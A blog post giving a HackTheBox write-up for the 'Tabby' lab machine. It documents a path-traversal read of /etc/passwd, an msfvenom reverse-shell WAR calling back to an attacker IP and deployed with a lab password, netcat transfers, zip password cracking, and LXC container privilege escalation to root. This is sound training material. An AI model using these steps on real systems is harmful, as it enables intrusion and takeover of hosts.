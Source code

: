 ```yaml
---
layout: post
title:  "HTB Tabby writeup"
date:   2020-12-08 18:00:00 +0300
categories: HTB_writeup
summary: This is my first attempt at making a writeup for a HackTheBox machine. It contains my notes on how I obtained both the user and root flag on the Tabby machine.  
---
```


This is my first attempt at making a writeup for a HackTheBox machine. It contains my notes on how I obtained both the user and root flag on the Tabby machine.  

![Tabby info card]({{site.baseurl}}/assets/img/HTB/tabby/info_card.png){: .center-image}
[Tabby](https://www.hackthebox.eu/home/machines/profile/259) is a Linux machine released on 2020-06-20 and its difficulty level was <b>easy</b>.

### Recon
We begin this by running a port scan with nmap (actually zenmap).
{%highlight bash%}
nmap -p- -T4 -A -v 10.10.10.194
# This is also the command used by using "Intense scan, all TCP ports" in zenmap
{%endhighlight%}
![Port Scan]({{site.baseurl}}/assets/img/HTB/tabby/port_scan.png){: .center-image}
We can see that this machine is exposing 3 services: ssh on port 22, an Apache web server on port 80 and a tomcat server on port 8080.


### Web server (port 80)
First, we should take a look at the http server running on port 80.
![Web page]({{site.baseurl}}/assets/img/HTB/tabby/front_page.png){: .center-image}
The first thing that we notice is the megahosting.htb domain. We might have to add that to /etc/hosts later.  
Looking around on this webpage, we cannot find any significant features and we see that lots of pages seem to be broken.
You can even find some pages indicating a previous data breach.

By taking a look at the code, we see an URL that has a 'file' URL parameter.
![Web page]({{site.baseurl}}/assets/img/HTB/tabby/lfi_code.png){: .center-image}

This hints at a possible Local-File Inclusion (LFI) vulnerability.  
We test this with some files that belong to the web app (ex: index.html) and then try accessing /etc/passwd (we already know this is running on Linux).
{%highlight bash%}
curl http://10.10.10.194/news.php\?file\=statement\?news.php\?file\=../../../../../../../../etc/passwd
{%endhighlight%}
![/etc/passwd contents]({{site.baseurl}}/assets/img/HTB/tabby/etc_passwd.png){: .center-image}

After looking around these pages without finding anything else that appeared to be useful I decided to start looking at the tomcat server.

### Tomcat (port 8080)
We can find the default Tomcat page on port 8080. We could access the manager_webapp page and the host-manager_webapp if we would have a valid account.  
First, we try some commonly used credentials like tomcat/tomcat, admin/s3cret, etc. None of these work for this instance of tomcat.  

A good approach here would be trying to obtain the file containing tomcat users (tomcat-users.xml) by exploiting the LFI vulnerability that we found.  
On the first page, we are informed that CATALINA_HOME is in <b>/usr/share/tomcat9</b> and CATALINA_BASE is in <b>/var/lib/tomcat9</b> so these paths might be good places to start looking.  
Also, when we enter an invalid set of credentials we are informed that tomcat-users.xml would be found at /conf/tomcat-users.xml in CATALINA_BASE.  
Trying to get the file at /usr/share/tomcat9/conf/tomcat-users.xml does not return anything.  
After some trial and error, I found a stackoverflow.com post that indicated more default locations for tomcat-users.xml.  
The one that worked was /usr/share/tomcat9/etc/tomcat-users.xml. We can now see the password for the tomcat account.

![Tomcat password]({{site.baseurl}}/assets/img/HTB/tabby/password.png){: .center-image}

### Getting a shell

When we try to use the newly found credentials in the manager web UI, the login fails. This is probably because tomcat does not have the manager-gui role. 
To get around this, we'll upload our payload using the deploy endpoint & cURL.  
First, we'll create a payload (a reverse shell) using msfvenom. Then, we'll upload it to the server using the tomcat account.
And after that we'll open a listener using nc and go to the URL corresponding to our payload in a browser in order to run it.  

{%highlight bash%}
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.62 lport=1337 -f war -o n00b.war
export pass=\$3cureP4s5w0rd123!
curl -v -u tomcat:$pass --upload-file n00b.war "http://10.10.10.194:8080/manager/text/deploy?path=/n00b&update=true"
{%endhighlight%}
Note1: The password contained a <i>$</i> character. The easiest way to include that was to put it in a variable and use it like that.

![Deploying the payload]({{site.baseurl}}/assets/img/HTB/tabby/deploy_payload.png){: .center-image}
Then we start the nc listener and we got our first shell running as tomcat.

{%highlight bash%}
nc -lvp 1234
{%endhighlight%}

![Reverse shell]({{site.baseurl}}/assets/img/HTB/tabby/first_reverse_shell.png){: .center-image}

### Obtaining user-level access (privilege escalation 01)

We notice that python3 is installed on this machine.  
To make things easier, the first thing that we do is upgrading our shell to an interactive TTY using python.  
![Upgrading the shell]({{site.baseurl}}/assets/img/HTB/tabby/shell_upgrade.png){: .center-image}

We start looking for methods that we could use to elevate our privileges and gain access as the <b>ash</b> user instead of <b>tomcat</b>.  
One of the locations that I looked at was the root directory used by the apache web server. Among files that belong to the web app that is running on port 80 there is an archive named 16162020_backup.zip
![backup archive]({{site.baseurl}}/assets/img/HTB/tabby/backup_location.png){: .center-image}
Backups might contain sensitive or useful information so we use nc to transfer this file to our machine.

![Transfering backup.zip]({{site.baseurl}}/assets/img/HTB/tabby/nc_transfer_1.png){: .center-image}
The zip file is password protected.  
However, we can try to brute-force the password using fcrackzip and a wordlist (I used rockyou.txt in this case).  
Using this method, the password for the archive is found quite fast.  
![Password found]({{site.baseurl}}/assets/img/HTB/tabby/pw_found.png){: .center-image}
### The user flag
Analyzing the contents of the backup archive did not yield any useful information.  
However, there is another common mistake that could be involved here: <b>password reuse</b>.  
We try to use that password while logging in as <b>ash</b> and it works.  
We can now also retrieve the user flag from the user's home.

![User flag]({{site.baseurl}}/assets/img/HTB/tabby/user_flag.png){: .center-image}
### Obtaining root-level access (privilege escalation 02)
Now that we have access to the ash user's account we should try to gain root-level access.  
Among the first things that we check is the list of groups that a user belongs to. The group that grabs our attention for this user is <b>lxc</b>.
![Groups]({{site.baseurl}}/assets/img/HTB/tabby/groups.png){: .center-image}

Lxc is a technology used to run containers on a Linux system. The level of access needed for that might be useful for escalating privileges.  
We start looking around on the Internet for more information on LXC and possible methods of exploiting it in order to gain more access.  
We find a [blogpost](https://www.hackingarticles.in/lxd-privilege-escalation/) detailing how to use lxc or lxd in order to get root-level access.

First, we clone the alpine-builder [repository](https://github.com/saghul/lxd-alpine-builder) from GitHub and run <b>build-alpine</b>.  
Then, we use netcat to transfer the generated binary to our target machine.  
On the target machine, we import the image and create a new container based on that image.  

{%highlight bash %}
# Importing image
lxc image import ./alpine-v3.12-x86_64-20201121_1111 --alias test01

# Creating new container
lxc init test01 testimg -c security.privileged=true

# Add the root of the host filesystem to the container and mount it at /mnt/root
lxc config device add testimg mydevice disk source=/ path=/mnt/root recursive=true

# Start the new container
lxc start testimg

# Run sh inside the container
lxc exec testimg /bin/sh
{%endhighlight%}

![LXC import]({{site.baseurl}}/assets/img/HTB/tabby/lxc_import.png){: .center-image}


### The root flag
The exploit described above works well and we can now access any file from the host's filesystem.  
We use that in order to read the root flag.
![Root flag]({{site.baseurl}}/assets/img/HTB/tabby/root_flag.png){: .center-image}

And then we clean up by deleting the container, image and other binaries that we might've left behind while doing this (it was done when the machine was still public so other people were connecting to it too).
